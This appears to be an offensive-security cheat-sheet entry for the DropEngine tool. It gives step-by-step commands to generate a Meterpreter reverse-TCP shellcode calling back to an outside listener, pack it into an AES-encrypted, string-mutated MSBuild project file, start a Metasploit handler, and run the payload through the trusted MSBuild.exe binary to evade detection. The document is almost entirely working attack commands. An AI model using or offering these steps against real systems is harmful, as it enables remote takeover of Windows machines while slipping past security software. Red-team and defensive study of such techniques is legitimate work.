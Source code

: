 #### DropEngine

- https://github.com/s0lst1c3/dropengine

Create shell.bin
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o shell.bin
```

Create csproj payload
```
python3 dropengine.py --build \
--interface csharp_runner_interface \
--crypter crypter_aes \
--decrypter decrypter_csharp_rijndael_aes \
--ekey ekey_static \
--runner msbuild_csharp_runner \
--dkey dkey_csharp_static \
--executor executor_csharp_virtual_alloc_thread \
--mutator mutator_random_string \
--shellcode shell.bin \
--o example.csproj
```

Start the handler
```
msfconsole -q -x 'use multi/handler; set payload windows/meterpreter_reverse_tcp; set lhost eth0; set lport 443; exploit'
```

Trigger the payload using msbuild

- https://lolbas-project.github.io/lolbas/Binaries/Msbuild/

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe .\example.csproj
```
